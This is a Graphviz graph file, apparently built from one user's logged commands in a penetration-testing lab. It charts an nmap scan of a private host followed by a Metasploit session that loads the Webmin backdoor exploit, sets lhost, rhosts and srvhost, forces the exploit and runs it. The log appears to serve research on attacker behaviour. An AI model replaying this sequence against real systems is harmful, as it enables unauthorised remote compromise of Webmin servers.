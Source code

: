 // creating graph for user: 91
digraph {
	node [shape=box]
	0 [label="nmap -h A0 A1 "]
	1 [label="nmap -h A0 A1 "]
	2 [label="nmap -p 1-65535 172.18.1.5 M0 "]
	3 [label="nmap -A -p 10000 172.18.1.5 M0 "]
	4 [label="msfconsole M2 "]
	5 [label="use exploit/linux/http/webmin_backdoor M8 "]
	6 [label="use exploit/unix/http/webmin_backdoor M8 "]
	7 [label="search webmin M3 "]
	8 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	9 [label="show options M5 "]
	10 [label="set lhost 10.1.135.83 A6 "]
	11 [label="set rhosts 172.18.1.5 A6 "]
	12 [label="show targets A5 "]
	13 [label="show options M5 "]
	14 [label="exploit  M8 "]
	15 [label="set srvhost 10.1.135.83 A6 "]
	16 [label="exploit  M8 "]
	17 [label="show options M5 "]
	18 [label="set ForceExplot A6 "]
	19 [label="set ForceExploit A6 "]
	20 [label="set ForceExploit true A6 "]
	21 [label="exploit M8 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	rankdir=LR
}
